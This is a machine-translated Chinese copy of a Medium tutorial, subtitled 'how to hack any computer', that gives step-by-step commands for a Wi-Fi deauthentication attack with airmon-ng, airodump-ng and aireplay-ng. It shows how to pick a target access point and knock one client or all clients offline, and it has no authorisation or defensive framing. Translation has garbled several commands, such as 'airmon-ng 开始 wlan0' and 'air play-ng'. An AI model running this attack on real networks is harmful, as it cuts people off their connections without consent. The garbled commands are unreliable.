

# 使用 KaliLinux 中的 Aircrack 套件取消身份验证

> 原文：<https://medium.datadriveninvestor.com/deauthentication-using-the-aircrack-suite-in-kalilinux-cdd13568c2a1?source=collection_archive---------1----------------------->

## 如何黑任何一台电脑

Photo by [Ilya Pavlov](https://unsplash.com/@ilyapavlov?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)

这种预连接攻击你得用 Kali Linux 2020.1a。

我们将断开客户端与接入点的连接，而无需自己连接到接入点。

**演示:**

步骤 1:让无线网卡进入监控模式

1.在终端中键入 **iwconfig** 并寻找你的无线网卡(通常称为 wlan0)

2.在显示的信息中，您应该看到名为**模式的属性:“**

a.默认值为**“托管”**

b.我们需要这个值是**【Monitor】**

3.为了使卡进入监控模式，我们将运行 aircrack-ng 套件的 **airmon-ng** 程序。

a.在终端类型: **airmon-ng check kill** (这将终止任何可能干扰所需功能的进程)

b.现在输入 **airmon-ng 开始 wlan0**

I .应出现一条消息，详细说明成功/失败以及接口的新名称(如果成功)。(通常为 **wlan0mon** 或 **mon0** )

4.现在再次运行 **iwconfig** 来验证我们的接口名称已经更改，并且它确实处于监控模式。

 [## 2019 年最值得学习的编码语言|数据驱动的投资者

### 在我读大学的那几年，我跳过了很多次夜游去学习 Java，希望有一天它能帮助我在…

www.datadriveninvestor.com](https://www.datadriveninvestor.com/2019/02/21/best-coding-languages-to-learn-in-2019/) 

步骤 2:可视化我们周围的所有接入点和客户端，并选择一个目标

1.在终端中，键入 **airodump-ng wlan0mon** (或您的接口名称)

a.您将会看到您周围所有在无线网卡覆盖范围内的接入点。

b.显示了许多参数:

**BSSID:**AP 的 MAC 地址

信号电平，数字越高，我们离接入点越近

AP 正在广播的频道

**ENC:**AP 当前使用的加密(WEP、WPA、WPA2)

**ESSID:**AP 的广播名称

2.一旦我们找到了我们的目标 AP，我们将记下它正在广播的 **MAC 地址** (bssid)和**频道**。

3.我们现在将再次运行 **airodump-ng** ，但是这一次使用我们已经获得的特定参数。

a.在终端类型中:

**airodump-ng—bssid(MAC _ ADDRESS)—信道(CHANNEL_#) wlan0mon**

4.现在，我们可以看到所有连接到目标 AP 的客户端。

步骤 3:向客户端发送解除关联数据包

1.一旦我们选择了想要解除关联的客户，我们将使用**空中播放**运行我们的**解除关联**攻击

2.在终端类型中:

**air play-ng—deauth(# _ DEAUTHS)-a(AP _ MAC)-c(CLIENT _ MAC)WLAN 0 mon**

3.在输出中，我们应该看到类似这样的内容:

**发送 64 个定向 DeAuth。STMAC:[XX:XX:XX:XX:XX:XX:XX][64 | 64 ack]**

其中[64 | 64 ack]表示[从客户端接收的 ack |从 AP 接收的 ack]

4.当程序运行时，客户端将无法重新连接到 AP。

**请注意，我们不需要关联到目标 AP 就能运行此解除认证攻击。*

*   **如果在使用 air play-ng 运行 deauth 攻击时未指定–c(CLIENT _ MAC)参数，则连接到 AP 的所有客户端都将断开连接，但单独针对一个客户端会更有效。*